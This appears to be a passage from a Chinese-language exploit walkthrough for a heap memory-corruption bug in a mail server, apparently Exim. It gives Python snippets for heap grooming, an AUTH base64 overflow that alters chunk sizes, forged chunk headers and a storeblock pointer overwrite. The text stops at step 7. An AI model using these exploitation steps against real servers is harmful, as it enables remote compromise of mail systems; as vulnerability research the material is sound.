 下面是漏洞利用的详细步骤：

![exp1.png](https://i.loli.net/2018/05/12/5af5cd954900f.png)

1. 发送ehlo，布局堆空间

```python
ehlo(s, "a"*0x1000) # 0x2020
ehlo(s, "a"*0x20)
```

   形成一块大小为0x7040的空闲堆块

2. 发送unknown command（包含不可打印字符）从unsorted bin分配内存空间

```python
docmd(s, "\xee"*0x700)
```

发送的unknown command 的大小要满足 `yield_length < (length + nonprintcount * 3 + 1)`  ，从而使得发送的unknown command能够调用malloc函数分配一个新的storeblock。

![exp2.png](https://i.loli.net/2018/05/12/5af5cd9549657.png)

3. 发送ehlo信息回收unknown命令分配的空间

```python
ehlo(s, "c"*0x2c00)
```

在回收unknown command占用的内存空间时，由于之前的sender_host_name占用的内存空间已经释放，会发生合并，形成大小为0x2050的空闲块

4. 发送Auth数据，触发漏洞，修改ehlo信息所在堆块的大小

```python
 payload = "d"*(0x2020+0x30-0x18-1)
 docmd(s, b64encode(payload)+b64encode("\xf1\xf1")[:-1])
```

5. 发送Auth数据伪造下一个块的块头信息，绕过释放sender_host_name所在堆块时的内存检查

```python
payload2 = 'm'*0x70+p64(0x1f41) # modify fake size
docmd(s, b64encode(payload2))
```

![exp3.png](https://i.loli.net/2018/05/12/5af5cd9549405.png)

6. 释放sender_host_name所在堆块，同时为了不释放其他storeblock，发送包含无效字符的信息

```python
ehlo(s, "skysider+")
```

7. 发送Auth数据，修改overlapped所在storeblock的next指针，令其指向acl字符串所在的storeblock

```python
payload3 = 'a'*0x2bf0 + p64(0) + p64(0x2021) + p8(0x80)
try_addr = p16(try_addr*0x10+4)  # to change
docmd(s, b64encode(payload3)+b64encode(try_addr)[:-1])
```

